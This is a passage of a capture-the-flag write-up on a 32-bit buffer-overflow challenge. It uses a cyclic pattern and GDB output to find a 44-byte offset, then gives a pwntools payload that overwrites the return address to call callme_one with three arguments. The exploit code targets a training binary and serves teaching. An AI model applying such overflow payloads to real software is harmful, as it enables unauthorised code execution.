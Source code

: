 ```

Hope you read the instructions...

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab
...
> x/24wx $ebp
0xffffca28:     0x6161616b      0x6161616c      0x6161616d      0x6161616e
0xffffca38:     0x6161616f      0x61616170      0x61616171      0x61616172
...
```

The long sequence of letters that was passed as input comes from `pwn cyclic 128`. When we run the GDB command `x/24wx $ebp`, we can see the first 96 bytes on the stack starting from the memory address stored in `ebp`. If you remember how a function works in assembly, then you'd know that the value stored at `ebp` is the value that `ebp` held before the function was called while the value after that is the return address (which is what we are after). From the output, we know that the value in the saved return address (`eip`) is `0x6161616c`. Since the first double-word in our buffer is `0x61616161`, it means there are 11 double-words (or 44 bytes) between the start of the buffer and the saved `eip`. We can now use this information to fill in the first part of our attack

```python
from pwn import *
...
ARG0 = 0xdeadbeef
ARG1 = 0xcafebabe
ARG2 = 0xd00df00d
ARGS_COMBINED = p32(ARG0) + p32(ARG1) + p32(ARG2)

attack = b"A"*44 # buffer garbage
attack += p32(exe.symbols["callme_one"]) # address of callme_one
attack += b"A"*4 # overwrite saved eip
attack += ARGS_COMBINED # arguments
io.sendline(attack)
...
```

If we were only had to call just `callme_one()`, we would be done. However, the challenge require us to run `callme_one()`, `callme_two()`, `callme_three()` in that order with the same arguments. This means that when each function gets called, the 5th to 16th bytes from the saved `ebp` must correspond to the 3 arguments specified by the author.

From the called function (like `callme_one()`), the stack must look like this:

| Address | Value | Remarks |
| - | - | - |
| ebp+0x10 | 0xd00df00d | 3rd argument |
| ebp+0xc | 0xcafebabe | 2nd argument |
| ebp+0x8 | 0xdeadbeef | 1st argument |
| ebp+0x4 | b"AAAA" | overwritten saved EIP |
| ebp | ........ | saved EBP from caller |

